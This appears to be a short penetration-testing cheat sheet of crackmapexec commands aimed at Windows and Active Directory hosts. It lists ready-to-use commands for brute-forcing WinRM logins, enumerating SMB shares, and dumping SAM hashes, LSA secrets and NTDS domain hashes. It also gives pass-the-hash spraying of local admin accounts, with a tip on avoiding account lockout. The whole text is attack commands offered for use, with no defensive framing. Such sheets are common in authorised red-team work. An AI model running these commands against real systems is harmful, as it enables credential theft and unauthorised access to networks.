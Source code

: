 # cme (deprecated)

% cme, crackmapexec, windows, Active directory

## crackmapexec - Brute force user names and passwords over WinRM
```
crackmapexec winrm <ip> -u user.list -p password.list
```

## crackmapexec - Enumerate SMB shares
```
crackmapexec smb <ip> -u "user" -p "password" --shares
```

## crackmapexec - Dump password hashes from SAM
```
crackmapexec smb <ip> --local-auth -u <username> -p <password> --sam
```

## crackmapexec - Dump LSA secrets
```
crackmapexec smb <ip> --local-auth -u <username> -p <password> --lsa
```

## crackmapexec - Dump hashes from NTDS file
```
crackmapexec smb <ip> -u <username> -p <password> --ntds
```
## crackmapexec - PTH sprayin local admin
```
# Can lockout domain account
# Use local acc method like below : try 1 login on a host of a given range
crackmapexec smb <IP/RANGE> -u <USER> -d . -H <NT HASH>
```
